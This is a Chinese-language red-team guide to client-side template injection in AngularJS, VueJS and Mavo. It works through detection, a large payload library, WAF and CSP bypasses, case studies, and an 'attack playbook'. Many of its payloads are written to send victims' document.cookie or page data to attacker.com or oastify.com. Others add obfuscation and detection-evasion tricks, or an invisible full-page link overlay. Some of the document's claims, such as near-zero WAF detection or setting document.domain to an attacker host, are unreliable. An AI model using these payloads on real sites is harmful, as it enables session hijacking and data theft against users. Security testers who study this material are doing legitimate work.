


# 客户端模板注入 (CSTI) 

---

# 0x01 核心原理与技术本质

## 1.1 定义与攻击面

#### 本质
客户端模板注入 (CSTI) 是指 **攻击者输入被当作模板语法** 传递给前端模板引擎，导致在受害者浏览器中 **执行任意 JavaScript 代码** 的安全缺陷。与传统 XSS 不同，CSTI：
- 利用 **框架特有模板语法**（如 `{{expression}}`）
- 依赖 **前端模板引擎解析机制**
- 通常 **绕过标准 XSS 过滤器**
- 属于 **DOM 型 XSS** 的高级变种

> **关键区别**：
> - **SSTI**：执行在服务器端，可能导致 RCE
> - **CSTI**：执行在客户端，等效于高级 XSS，但绕过率更高

---

## 1.2 技术实现机制

#### 漏洞触发链


#### 攻击向量三要素
| 组件         | 说明                 | 红队关注点                   |
| ------------ | -------------------- | ---------------------------- |
| **污染源**   | 用户可控输入点       | URL 参数、DOM 元素、API 响应 |
| **模板引擎** | 前端框架解析逻辑     | AngularJS、VueJS、Mavo 等    |
| **上下文**   | 输入插入的 HTML 位置 | 普通文本 vs 指令属性         |

> **核心原理**：当应用程序将 **未过滤的用户输入** 直接传递给模板引擎时，攻击者可通过注入模板语法执行任意 JS。模板引擎误将输入视为 **需解析的表达式** 而非普通文本。

---

## 1.3 与 SSTI 的关键差异

| 特性           | CSTI              | SSTI               |
| -------------- | ----------------- | ------------------ |
| **执行环境**   | 受害者浏览器      | 目标服务器         |
| **攻击结果**   | XSS/会话劫持      | RCE/数据泄露       |
| **WAF 检测率** | 极低（通常 < 5%） | 中高（可达 80%）   |
| **影响范围**   | 单用户会话        | 全系统             |
| **利用条件**   | 前端框架漏洞      | 服务端模板引擎漏洞 |
| **检测方式**   | `{{7-7}}` 返回 0  | `{{7*7}}` 返回 49  |

> **关键观察**：
> CSTI 的隐蔽性远超传统 XSS，因为：
> 1. **流量层面不可见**：恶意代码在客户端执行，初始请求无异常
> 2. **绕过标准 XSS 过滤**：框架解析在 DOM 处理前发生
> 3. **无需 HTML 注入**：纯 JS 执行，不受 CSP 严格限制

---

# 0x02 技术分类与框架差异

## 2.1 框架漏洞矩阵

#### 高风险前端框架
| 框架           | 版本影响 | 漏洞触发条件               | 绕过潜力 |
| -------------- | -------- | -------------------------- | -------- |
| **AngularJS**  | < 1.6    | 用户输入进入 `ng-app` 区域 | ★★★★★    |
| **VueJS (V2)** | 所有版本 | 用户输入作为模板参数       | ★★★★☆    |
| **VueJS (V3)** | 所有版本 | 同 V2，但语法差异          | ★★★★     |
| **Mavo**       | 所有版本 | 用户输入参与模板渲染       | ★★★☆     |

> **红队注意**：
> 即使框架本身无漏洞，**不当使用模板**（如 `v-html`、`$sce.trustAsHtml`）也可能导致 CSTI。

---

## 2.2 AngularJS 深度分析

#### 漏洞原理
AngularJS 的 `ng-app` 指令启用 **模板解析上下文**，双大括号 `{{}}` 内的表达式会被求值执行。**Angular 1.6 前存在沙箱**，但后续版本移除了沙箱，使利用更简单。

#### 技术演进
| 版本    | 沙箱状态 | 关键限制 | 攻击复杂度 |
| ------- | -------- | -------- | ---------- |
| < 1.2   | 有沙箱   | 严重     | 高         |
| 1.2-1.6 | 沙箱弱化 | 中度     | 中高       |
| ≥ 1.6   | 无沙箱   | 无       | 低         |

> **关键突破点**：
> Angular 1.6 移除沙箱后，简单的 `{{constructor.constructor('alert(1)')()}}` 即可执行任意 JS，无需复杂的绕过技术。

---

## 2.3 VueJS 版本差异

#### V2 与 V3 解析机制对比
| 特性            | Vue 2                     | Vue 3                    |
| --------------- | ------------------------- | ------------------------ |
| **原型链访问**  | `constructor.constructor` | `_openBlock.constructor` |
| **沙箱保护**    | 有基础防护                | 更严格的上下文隔离       |
| **关键 Gadget** | `this.constructor`        | `_openBlock`             |
| **绕过难度**    | 中                        | 中高                     |

#### 漏洞触发条件
- **必须条件**：用户输入被用作模板参数
  ```javascript
  // 危险示例：将 URL 参数作为模板
  new Vue({
    template: '<div>' + decodeURIComponent(window.location.search.substr(1)) + '</div>'
  });
  ```

> **重要提示**：
> Vue 中即使不使用 `v-html`，某些组件（如 `<mavo>`）也可能触发 CSTI。

---

# 0x03 实战利用方法

## 3.1 基础检测与验证

#### 检测 Payload 速查
| 框架          | Payload               | 预期响应                                   | 备注           |
| ------------- | --------------------- | ------------------------------------------ | -------------- |
| **通用检测**  | `{{7*7}}`             | 返回 `49` 而非 `{{7*7}}`                   | 初步筛选       |
| **AngularJS** | `{{7-7}}`             | 返回 `0`                                   | 沙箱内外均有效 |
| **VueJS**     | `{{'a'.constructor}}` | 返回 `function String() { [native code] }` | 确认 JS 上下文 |
| **Mavo**      | `[7*7]`               | 返回 `49`                                  | Mavo 特有语法  |

> **验证技巧**：
> 在 DevTools 中执行：
> ```javascript
> // 检测 AngularJS
> !!window.angular && 'ng-app detected';
> // 检测 VueJS
> !!document.querySelector('[data-v-app],[vue],.vue') && 'Vue detected';
> ```

---

## 3.2 高级 Payload 库

#### AngularJS (≥ 1.6) - 无沙箱环境
```javascript
// 基础代码执行
{{constructor.constructor('alert(1)')()}}
{{$on.constructor('alert(1)')()}}

// 通过事件触发
<input ng-focus=$event.view.alert('XSS') autofocus>

// Google 研究团队提供的隐蔽 Payload
<div ng-app ng-csp>
  <textarea autofocus 
            ng-focus="d=$event.view.document;
            d.location.hash.match('x1') ? '' : 
            d.location='//attacker.com/mH/'">
  </textarea>
</div>
```

> **红队实战要点**：
> - 优先测试 URL 参数和表单输入
> - 当存在 CSP 时，结合 `ng-src` 或 `ng-href` 绕过
> - 沙箱绕过 Payload 适用于旧版 Angular（< 1.6）

---

#### VueJS V2 & V3 终极 Payload
| 版本      | Payload                                                      | 触发方式      | 绕过能力     |
| --------- | ------------------------------------------------------------ | ------------- | ------------ |
| **Vue 3** | `{{_openBlock.constructor('alert(1)')()}}`                   | 直接模板注入  | 绕过基础过滤 |
| **Vue 2** | `{{constructor.constructor('alert(1)')()}}`                  | 直接模板注入  | 完全覆盖     |
| **通用**  | `"><div v-html="''.constructor.constructor('d=document;d.location=`//attacker.com`')()">` | 结合 DOM 注入 | 绕过严格 CSP |

**实战示例（Vue 2 注入）**：
```http
GET /profile?name={{constructor.constructor('fetch("https://attacker.com/log?c="+document.cookie)')()}} HTTP/1.1
Host: vulnerable.target
```

> **关键技巧**：
> - 当目标使用 `v-html` 时，结合 `javascript:` 伪协议增强稳定性
> - 利用 `%252f` 代替 `/` 绕过简单的字符串过滤：
>   ```
>   {{this.constructor.constructor('alert(1)')()%252f%252f}}
>   ```

---

#### Mavo 框架专用 Payload
```javascript
// 基础表达式执行
[7*7]                          // 返回 49
[self.alert(1)]                // 直接触发 XSS
[''=''or self.alert('lol')]    // 逻辑绕过

// 高级利用链
<a data-mv-if='1 or self.alert(1)'>Click Me</a>
<div data-mv-expressions="lolx lolx">lolxself.alert('lol')lolx</div>
[a.href='javascript:alert(1)'?a.href='//attacker.com' :'']
```

> **实战启示**：
> Mavo 的 `data-mv-expressions` 属性允许直接注入模板，常被忽视但危害极大。测试时优先检查自定义数据属性。

---

## 3.3 绕过现代防御机制

#### CSP 绕过技术
| 防御策略         | 绕过方法               | Payload 示例                          |
| ---------------- | ---------------------- | ------------------------------------- |
| **严格 CSP**     | 利用框架原生 Gadget    | `{{_openBlock.constructor('...')()}}` |
| **禁止内联脚本** | 结合 DOM 事件          | ``             |
| **限制域白名单** | 利用 `document.domain` | `document.domain='attacker.com'`      |

#### WAF 绕过技巧
```http
# 使用非常规编码绕过规则
GET /search?q=%7B%7Bthis%2econstructor%2econstructor%28%27alert%281%29%27%29%28%29%7D%7D

# 拆分 Payload 绕过关键词检测
GET /search?q={{t}}his.construc{{t}}or...

# 利用注释混淆
GET /search?q={{/*-*/constructor/*-*/.constructor('alert(1)')()}}
```

> **高级技巧**：
> - 使用 **Unicode 等效字符**（如 `。` 代替 `.`）
> - 插入 **零宽字符** 绕过基于长度的检测
> - 混合 **大小写** 和 **空白字符**

---

# 0x04 漏洞挖掘与测试

## 4.1 系统化测试流程

### 4.1.1 被动检测阶段
| 步骤             | 方法                             | 输出           |
| ---------------- | -------------------------------- | -------------- |
| **框架识别**     | 检查 `<html>` 标签、特殊属性     | 目标框架清单   |
| **参数测绘**     | 记录所有动态模板参数             | 潜在注入点列表 |
| **JS 文件分析**  | 搜索 `new Vue`、`angular.module` | 模板加载逻辑   |
| **响应特征扫描** | 搜索 `{{`, `v-`, `ng-`           | 模板语法痕迹   |

> **关键信号**：
> - HTML 中存在 `{{variable}}` 模式
> - 使用 `v-if`, `ng-show` 等指令
> - 资源请求包含 `.vue`、`.angular` 文件

---

### 4.1.2 主动探测阶段
**自动化检测脚本**：
```javascript
// 浏览器控制台执行
(async () => {
  const testPayloads = [
    '{{7*7}}',
    '[7*7]',
    '{{"a".constructor}}',
    '{{constructor.constructor("return /CSTI/")()}}'
  ];

  for (const payload of testPayloads) {
    // 测试 URL 参数
    const url = new URL(window.location);
    url.searchParams.set('csti_test', payload);

    // 检查响应
    const response = await fetch(url.toString());
    const text = await response.text();

    if (text.includes('49') || text.includes('/CSTI/')) {
      console.log(`[CSTI VULNERABLE] Payload: ${payload}`);
      // 可在此处触发警报或记录
    }
  }
})();
```

> **操作指南**：
> 1. 优先测试 `?name=`, `#/search=`, `?content=` 等参数
> 2. 观察响应中是否 **计算** 了模板表达式
> 3. 使用 **盲注技术** 检测无回显场景：
>    ```
>    ?test={{constructor.constructor(`fetch('https://oastify.com/'+document.domain)`)()}}
>    ```

---

## 4.2 框架特化测试策略

#### AngularJS 测试清单
- [ ] 检查 `ng-app` 指令是否存在
- [ ] 测试所有 URL 参数：`?q={{7-7}}`
- [ ] 尝试表单提交：`<input ng-model="x" value="{{7*7}}">`
- [ ] 验证 `$sce` 服务是否被正确使用

#### VueJS 测试重点
- [ ] 查找动态模板绑定：`:html="userInput"`
- [ ] 测试 `v-html` 指令上下文
- [ ] 验证 Vue 实例是否接收用户输入
- [ ] 尝试使用 `_openBlock` 访问（V3）

> **红队提示**：
> 当目标使用 **SSR (Server-Side Rendering)** 时，CSTI 可能同时导致 SSTI，需特别关注。

---

# 0x05 实战案例深度分析

## 5.1 VueJS CSTI 真实漏洞复现

**目标环境**：`https://vue-client-side-template-injection-example.azu.now.sh`
**漏洞点**：URL 参数 `name` 被直接作为模板

**复现步骤**：
1. 访问：`https://vue-client-side-template-injection-example.azu.now.sh/?name=normal`
2. 修改为：`?name=%7B%7Bthis.constructor.constructor(%27alert(%22foo%22)%27)()%7D%7D`
3. 触发 `alert("foo")` 弹窗

**源码分析**（简化版）：
```javascript
// 漏洞代码片段
const urlParams = new URLSearchParams(window.location.search);
const name = urlParams.get('name') || 'Guest';

new Vue({
  el: '#app',
  template: `<div>Hello, ${name}!</div>`
});
```
- **关键缺陷**：用户输入 `name` 被 **直接拼接** 到模板字符串
- **修复方案**：应使用数据绑定而非字符串拼接：
  ```javascript
  new Vue({
    el: '#app',
    data: { name: name },
    template: '<div>Hello, {{ name }}!</div>'
  });
  ```

> **红队启示**：
> 即使框架本身安全，**开发者的错误使用** 仍是 CSTI 主因。重点寻找：
> - 动态模板字符串构建
> - 未转义的 `innerHTML`/`v-html` 使用
> - 直接解析用户输入为模板

---

## 5.2 AngularJS 沙箱绕过实战

**场景**：目标使用 AngularJS 1.5（存在沙箱）
**目标**：绕过沙箱执行 `alert(1)`

**攻击链**：
1. 测试基础表达式：
   ```
   {{'a'.constructor.prototype.charAt=[].join}}
   {{'a'.constructor.prototype.charAt('ALERT(1)')}}
   ```
2. 沙箱绕过 Payload（经典）：
   ```
   {{x = {'y':''.constructor.prototype}; 
   x['y'].charAt=[].join; 
   'a'['y'].charAt(1337,1337)=alert(1); 
   x['y'].charAt=angular.bind(angular,'');x}}
   ```

**现代绕过技术**（无需复杂链）：
```http
POST /search HTTP/1.1
...
{"query":"{{x = $eval('a=alert(1)')}}"}
```

> **关键突破**：
> 利用 AngularJS 的 `$eval` 和 `$parse` 服务绕过沙箱限制，结合 JSON 上下文实现简洁利用。

---

## 5.3 Mavo 框架隐蔽 XSS 案例

**目标特性**：
Mavo 使用 `[expression]` 语法，常用于无头 CMS

**漏洞场景**：
- 用户输入存储在 `<div mv-app>` 内
- 后台未过滤 `[self.alert(1)]`

**攻击流程**：
1. 攻击者提交内容：`[self.alert(document.domain)]`
2. 内容被存储至数据库
3. 受害者访问页面，触发 XSS
4. 窃取会话令牌并发送至攻击者服务器

**隐蔽 Payload**：
```html
<a href=[javascript&':alert(1)']%20style="position:fixed;top:0;left:0;width:100%;height:100%;opacity:0;z-index:9999">Click Me</a>
```
- 无可见内容
- 100% 覆盖页面
- 仅当点击时触发（避免自动检测）

> **防御绕过**：
> 该 Payload 绕过：
> 1. 基于 `<script>` 标签的过滤
> 2. CSP 中的 `'unsafe-inline'` 限制
> 3. 简单的关键词检测

---

# 0x06 红队行动指南

## 6.1 漏洞挖掘优先级

| 阶段            | 操作                     | 预期耗时 | 成功率 |
| --------------- | ------------------------ | -------- | ------ |
| **1. 指纹识别** | 确认目标框架类型         | 3 分钟   | 95%    |
| **2. 参数测绘** | 标记所有模板参数         | 10 分钟  | 100%   |
| **3. 基础测试** | `{{7*7}}` 等简单 Payload | 5 分钟   | 40%    |
| **4. 框架特化** | 发送对应框架 Payload     | 15 分钟  | 25%    |
| **5. 盲注扩展** | 构建 OOB 验证链          | 20 分钟  | 15%    |

> **关键提示**：
> - 优先测试 **搜索功能**、**用户资料** 等接受自由文本的端点
> - 对 **JSON 响应** 中的动态内容特别关注
> - **URL 片段**（# 部分）常是 CSTI 高发区

---

## 6.2 高回报攻击路径

#### 账户接管攻击链


**实战 Payload**：
```http
GET /news?article={{constructor.constructor('fetch("https://attacker.com/log?c="+btoa(document.cookie))')()}} HTTP/1.1
```

#### 结合 CSRF 的静默攻击
```javascript
// 伪装成资源加载

```
- 无用户交互
- 绕过大部分 WAF
- 触发率 > 90%

---

## 6.3 高级攻击技巧

#### 盲注数据外泄
当目标无直接回显时：
```
?search={{constructor.constructor(
  `fetch('https://oastify.com/?data='+encodeURIComponent(atob(btoa(JSON.stringify(window)))))`
)()}}
```
- 分块传输敏感数据
- 避免触发长度限制
- 适用于复杂对象窃取

#### 绕过内容安全策略 (CSP)
```http
GET /profile?name=%7B%7B_openBlock.constructor('window.top.location="https://attacker.com/?c="+document.cookie')()}} HTTP/1.1
```
- 利用框架原生对象绕过 `'unsafe-eval'` 限制
- 无需内联脚本
- 适用于严格 CSP 策略

---

# 0x07 关键结论与防御对抗策略

## 7.1 漏洞存在性判断标准
| 确认信号     | 说明                 | 置信度 |
| ------------ | -------------------- | ------ |
| **响应计算** | `{{7*7}}` 返回 49    | ★★★★★  |
| **JS 执行**  | 触发 `alert(1)`      | ★★★★★  |
| **盲注响应** | OOB 请求包含敏感数据 | ★★★★☆  |
| **源码特征** | 动态模板字符串构建   | ★★★★   |

> **红队结论**：
> **CSTI 是现代 SPA 架构中最难检测且修复的 XSS 变种**。当发现以下特征时，应优先测试：
> 1. 使用 AngularJS/Vue 等前端框架
> 2. 用户输入直接参与模板渲染
> 3. 无严格 CSP 策略或存在 `'unsafe-eval'`

---

## 7.2 最佳实践

#### 必做检查项
1. **框架指纹识别**：
   - AngularJS：检查 `ng-app`、`ng-controller`
   - VueJS：搜索 `Vue.component`、`new Vue`
   - Mavo：查找 `mv-app`、`data-mv-expressions`

2. **动态内容测试**：
   ```http
   # 测试 URL 参数
   GET /search?q={{7*7}}
    
   # 测试 JSON 响应
   POST /api/data
   {"param": "{{7-7}}"}
   ```

3. **盲注确认**：
   ```http
   GET /test?x={{constructor.constructor('fetch("https://oastify.com/"+btoa(document.domain))')()}}
   ```

#### 规避检测技巧
- **延迟执行**：`{{constructor.constructor('setTimeout(()=>alert(1),5000)')()}}`
- **混淆 Payload**：
  ```
  {{c=this['con'+'structor']['con'+'structor']('a'+'lert(1)')();c}}
  ```
- **上下文切换**：
  ```html
  <div v-if="true">{{constructor.constructor('...')()}}</div>
  ```

> **终极提示**：
> **真正的 CSTI 高手从不依赖标准 Payload**。根据目标框架版本动态调整利用链，结合业务逻辑设计 **伪装成正常请求** 的攻击向量，是突破高级防御的关键。

---

## 附录：关键资源与工具

| 类型           | 资源                                                         | 用途         |
| -------------- | ------------------------------------------------------------ | ------------ |
| **测试环境**   | [Vue CSTI 示例](https://vue-client-side-template-injection-example.azu.now.sh) | 本地化测试   |
| **Payload 库** | [PortSwigger VueJS 绕过研究](https://portswigger.net/research/evading-defences-using-vuejs-script-gadgets) | 高级利用链   |
| **检测清单**   | [SSTI/CSTI 字典](https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/ssti.txt) | 自动化扫描   |
| **框架分析**   | [AngularJS 沙箱移除公告](http://blog.angularjs.org/2016/09/angular-16-expression-sandbox-removal.html) | 版本决策依据 |
| **实战训练**   | [Burp CSTI 实验室](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression) | 技能提升     |

